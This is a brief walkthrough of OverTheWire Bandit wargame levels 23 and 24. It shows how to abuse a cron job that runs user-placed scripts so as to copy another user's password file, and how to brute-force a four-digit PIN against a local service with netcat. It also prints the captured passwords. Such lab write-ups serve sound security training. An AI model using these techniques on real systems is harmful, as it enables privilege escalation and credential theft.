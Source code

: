 # level23
```sh
$ cat cronjob_bandit24
$ cat /usr/bin/cronjob_bandit24.sh
```
```sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```
```sh
$ vim /tmp/getpassword.sh
```
```sh
#!/bin/bash 

cat /etc/bandit_pass/bandit24 > /tmp/pw.txt
```
```sh
$ chmod +x  /tmp/getpassword.sh
$ cp /tmp/getpassword.sh /var/spool/bandit24/foo
$ cat /tmp/pw.txt
```
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

# level24
boom
```sh
#!/bin/bash

for i in {0000..9999}
do
        echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> possibilities.txt
done

cat possibilities.txt | nc localhost 30002 > result.txt
```
```sh
$ cat result.txt | grep -v Wrong    # -v: invert matching 
```
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
